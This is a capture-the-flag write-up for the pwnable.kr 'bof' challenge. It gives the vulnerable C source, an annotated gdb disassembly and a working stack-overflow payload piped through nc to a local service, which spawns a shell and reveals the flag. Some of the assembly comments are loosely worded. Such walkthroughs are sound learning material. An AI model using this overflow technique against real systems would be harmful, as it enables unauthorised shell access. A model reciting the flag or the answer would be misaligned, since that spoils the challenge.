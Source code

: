 # bof — pwnable.kr

## Goal

get shell to get the flag

---

## Files Provided

* `bof`
* `bof.c` — `bof`s source
* `readme` — the goal

---

## Walkthrough

```commandline
bof@ubuntu:~$ cat bof.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		setregid(getegid(), getegid());
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Here we can see the bof code gets a key as a param.
It will run `/bin/sh` if we will use the right key `0xcafebabe`.
But the key passed is `0xdeadbeef`

We can overflow the `overflowme` char[] and get to key
(When running a function the stack keeps the args and then the local vars)

Also, when just trying to pass 32 chars + 0xcafebabe it detects that I try to overflow and kills me
BUT if I'll succeed it won't since it won't be the end of the function, and it's validation should pass.

I tried to use gdb to examine what is the real number of bytes i need to pass
here is `dissas func`:

```shell
pwndbg> disass func
Dump of assembler code for function func:
   0x000011fd <+0>:	push   ebp ; keep the caller stack pointer
   0x000011fe <+1>:	mov    ebp,esp ; update ebp to the current stack pointer
   0x00001200 <+3>:	push   esi ; push some registers
   0x00001201 <+4>:	push   ebx ; push some registers
   0x00001202 <+5>:	sub    esp,0x30 ; allocate them space
   0x00001205 <+8>:	call   0x1100 <__x86.get_pc_thunk.bx>
   0x0000120a <+13>:	add    ebx,0x2df6
   0x00001210 <+19>:	mov    eax,gs:0x14 ; move a random value stored somewhere else into the stack - later this will recognize if we did bof
   0x00001216 <+25>:	mov    DWORD PTR [ebp-0xc],eax ; store it after the 32 buffer
   0x00001219 <+28>:	xor    eax,eax
   0x0000121b <+30>:	sub    esp,0xc ; since theres a padding of 44 in the buffer allocation- reset the stack pointer back by 12 so the buffer will be effectivly 32
   0x0000121e <+33>:	lea    eax,[ebx-0x1ff8] ; load the string to print
   0x00001224 <+39>:	push   eax
   0x00001225 <+40>:	call   0x1050 <printf@plt> ; print the string "overflow me : "
   0x0000122a <+45>:	add    esp,0x10 - cleanup after printf
   0x0000122d <+48>:	sub    esp,0xc - go 12 back in the stack pointer
   0x00001230 <+51>:	lea    eax,[ebp-0x2c] ; allocate 0x2c - 44 for an internal value that will be saved at eax
   0x00001233 <+54>:	push   eax
   0x00001234 <+55>:	call   0x1060 <gets@plt> ; call gets -> result is at eax
   0x00001239 <+60>:	add    esp,0x10 go 12 forward since we only need the first 32
   0x0000123c <+63>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe ; compare the first argument with the wanted key
   0x00001243 <+70>:	jne    0x1272 <func+117> ; if not equals, jump to else block
   0x00001245 <+72>:	call   0x1080 <getegid@plt> ; 
   0x0000124a <+77>:	mov    esi,eax
   0x0000124c <+79>:	call   0x1080 <getegid@plt>
   0x00001251 <+84>:	sub    esp,0x8
   0x00001254 <+87>:	push   esi
   0x00001255 <+88>:	push   eax
   0x00001256 <+89>:	call   0x10b0 <setregid@plt>
   0x0000125b <+94>:	add    esp,0x10
   0x0000125e <+97>:	sub    esp,0xc
   0x00001261 <+100>:	lea    eax,[ebx-0x1fe9]
   0x00001267 <+106>:	push   eax
   0x00001268 <+107>:	call   0x10a0 <system@plt>
   0x0000126d <+112>:	add    esp,0x10
   0x00001270 <+115>:	jmp    0x1284 <func+135> ; don't go to the else block
   0x00001272 <+117>:	sub    esp,0xc ; else
   0x00001275 <+120>:	lea    eax,[ebx-0x1fe1]
   0x0000127b <+126>:	push   eax
   0x0000127c <+127>:	call   0x1090 <puts@plt>
   0x00001281 <+132>:	add    esp,0x10
   0x00001284 <+135>:	nop ; end of else block 
   0x00001285 <+136>:	mov    eax,DWORD PTR [ebp-0xc] ; get the random number weve stored to verify it was not overflowed
   0x00001288 <+139>:	sub    eax,DWORD PTR gs:0x14 ; kinda compare - if the sub returns 0 
   0x0000128f <+146>:	je     0x1296 <func+153> ; if the sub returns 0 i wasnt overflowed
   0x00001291 <+148>:	call   0x12e0 <__stack_chk_fail_local> ; booz
   0x00001296 <+153>:	lea    esp,[ebp-0x8] ; exit gracefully
   0x00001299 <+156>:	pop    ebx
   0x0000129a <+157>:	pop    esi
   0x0000129b <+158>:	pop    ebp
   0x0000129c <+159>:	ret    
End of assembler dump.
```

We see that if I pass a 32 + value, it doesn't overflow the argument.
since there is a 12 offset it allocates 44.
So I don't overflow the argument I want, but I do overflow their check, so I fail.

If I cared about exiting gracefully I would have needed to fund the gs:0x14 value and use it in the overflow.
But I don't, I get the shell before the check and that's my goal.
So all I need to do is overflow by 44 + 0x8 (the first arg offset) and not 32

Using python I've constructed the bytes to send to the nc 127.0.0.1 9000
```python
import sys; sys.stdout.buffer.write(b'a' * (32+12+8) + b'\xbe\xba\xfe\xca')
```
notice the fact that I use little endian

Now let's pipe it to the bof runnable and also pipe our STDIN using the `cat` command to use the shell that it started
```shell
(python -c "import sys; sys.stdout.buffer.write(b'a' * 52 + b'\xbe\xba\xfe\xca')" && cat) | nc 127.0.0.1 9000
```
The result is:
```shell
bof@ubuntu:~$ (python -c "import sys; sys.stdout.buffer.write(b'a' * 52 + b'\xbe\xba\xfe\xca')" && cat) | nc 127.0.0.1 9000

cat flag
Daddy_I_just_pwned_a_buff3r!
```

